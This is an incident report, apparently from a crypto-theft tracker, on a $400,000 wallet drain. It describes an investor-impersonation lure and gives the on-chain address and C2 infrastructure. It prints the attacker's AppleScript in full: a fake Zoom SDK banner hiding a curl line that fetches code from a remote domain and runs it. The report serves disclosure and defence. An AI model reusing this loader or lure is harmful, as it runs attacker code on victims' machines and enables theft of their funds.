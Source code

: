 # Theft from Individual C4

Date: June 29, 2024

Amount Stolen: $400,000

Tags: 🔑

---

## Details

Contacted by Telegram account impersonating VC.  jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



### On-chain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1



## URLs

- https://x.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon
```


## Malicious Script

```
############################################################### #                     # # 🎦 Meeting SDK                 # #                     # # Embed the Zoom meeting and webinar experience in an app or website.     # #                     # #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    # #  experience in your app or website. The Meeting SDK interface resembles the Zoom   # #  client, except that it lives inside your own app or website.        # #                     # # Enhance the users' experience              # #                                # #      Native platforms for mobile and desktop offer a default UI, which looks similar to the   # #   Zoom client, and a custom UI, which offers the ability to completely customize the   # #   user interface.                 # #                     # #   The web SDK offers a client view, which looks similar to the Zoom client, and a    # #   modular component view, which displays the Meeting SDK in components on your   # #   website.                  # #                     # # Meeting and webinar authorization             # #                      # #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   # #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  # #  behalf of other users using a ZAK (Zoom Access Key) token.        # #                     # #      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   # #                     # #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  # #  to connect their accounts to your Meeting SDK.          # #                         # #                     # ###############################################################   #  Start meeting using ZAK(Zoom Access Key)token.  set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc
```



## C2s

support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.








